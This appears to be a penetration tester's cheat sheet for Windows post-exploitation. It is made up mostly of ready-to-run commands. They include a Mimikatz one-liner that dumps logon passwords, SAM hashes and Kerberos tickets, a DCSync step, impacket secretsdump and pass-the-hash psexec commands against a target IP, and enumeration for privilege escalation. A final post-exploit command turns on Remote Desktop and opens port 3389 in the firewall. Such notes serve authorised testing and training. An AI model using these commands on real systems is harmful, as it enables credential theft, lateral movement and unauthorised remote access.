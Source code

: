 ### Mimikatz (local)
One liner: `.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "sekurlsa::logonpasswords" "lsadump::sam" "exit"`
 1. `privilege::debug`
 2. `token::elevate`
 3. `lsadump::sam`
 4. `sekurlsa::logonpasswords`
 5. `lsadump::dcsync /user:$domain\$user (to obtain NTLM hash)`
	 - Then from kali: `impacket-secretsdump -just-dc-user $user $domain.com /$user:"$password"@$targetIP`
	 - From kali: `impacket-psexec -hashes 00000000000000000000000000000000:$NTLMhash Administrator@$targetIP`
 - From a GUI must be run as admin, (or in a cmd that is running as admin).  UAC stops it otherwise.
 - `sekurlsa::tickets` can help steal a TGS or, even better a, TGT

#### Misc Windows Privesc 
Running Processes Powershell
- `Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}`
	- NOTE:  You cannot see higher priv processes in windows

Search for unquoted service paths:
- `wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\" | findstr /i /v """`
- `wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\" | findstr /i /v """`

Check to see if you have the ability to do privileged writes i.e. writing to System32. There are exploits available on hacktricks. 

show firewall profile:
- `netsh advfirewall show currentprofile`
- `netsh advfirewall firewall show rule name=all`

Enumerate Installed Programs
- `wmic product get name, version, vendor`

Enumerate Windows Updates
- `wmic qfe get Caption, Description, HotFixID, InstalledOn`

Check for folders/files Everyone can write to:
- `Get-ChildItem "C:\Program Files" -Recurse | Get-ACL | ?{$_.AccessToString -match "Everyone\sAllow\s\sModify"}`

List drivers:
- (cmd)`driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object ‘Display Name’, ‘Start Mode’, Path
- (powershell) `Get-WmiObject Win32_PnPSignedDriver | Select-Object DeviceName, DriverVersion, Manufacturer | Where-Object {$_.DeviceName -like "*VMware*"}`

Notes:
- Run `ls`, `Get-ChildItem`, or `gci` with `-force` (like `ls -la` but for Windows)

### Post Exploit
 #### FROM HACKTRICKS: Enable Remote Desktop
`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f netsh firewall add portopening TCP 3389 "Remote Desktop"`
- `::netsh firewall set service remotedesktop enable` - I found that this line is not needed
- `::sc config TermService start= auto` - I found that this line is not needed
- `::net start Termservice` - found that this line is not needed
